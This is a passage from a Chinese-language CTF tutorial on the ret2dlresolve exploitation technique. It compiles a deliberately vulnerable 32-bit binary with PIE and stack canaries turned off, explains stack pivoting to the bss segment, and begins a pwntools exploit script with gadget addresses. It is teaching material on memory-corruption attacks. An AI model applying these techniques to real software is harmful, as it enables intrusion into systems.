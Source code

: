 为什么要使用`vuln`函数而不是直接写在主程序中呢？这是因为笔者发现编译后主程序中的`esp`会由栈上`ebp`上面的某个栈指针决定。为了将重心转移到`ret2dlresolve`的利用手法，我们暂且使用一个函数来进行溢出。

使用如下命令编译程序：

```bash
gcc -o pwn ./pwn.c -m32 -no-pie -fno-stack-protector
# 32位编译
# 关闭PIE
# 关闭canary
```

后面，我们会以该程序为例子，一步一步理清楚`ret2dlresolve`的流程。

**而本文中我们不会以`wiki`上的`ROPutils`为例子，也不会用到`readelf`等其他工具**（这是我为了尽可能减小学习成本）。

## 0x00. 总体预览

这个图是来自于[hollk师傅](https://hollk.blog.csdn.net/article/details/107378159)的图。先放在这里，因为不理解很正常。

![在这里插入图片描述](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051452853.png)

## 0x01. 栈迁移到bss

由于函数结束时会调用`leave ret`，我们这一步只需要覆盖`ebp`为`base_addr - 4`，并栈溢出来执行一个`read`函数来`read`到`base_addr`，最后将返回地址再设置到`leave ret`即可完成栈迁移。这里不明白的话，需要去学习一下栈迁移。

而此处我的`base_addr`的值为`bss`的基地址`+0x800`，这里实际上只需要在`bss`上任何一段可用地址即可。

`exp`（当前）：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030
```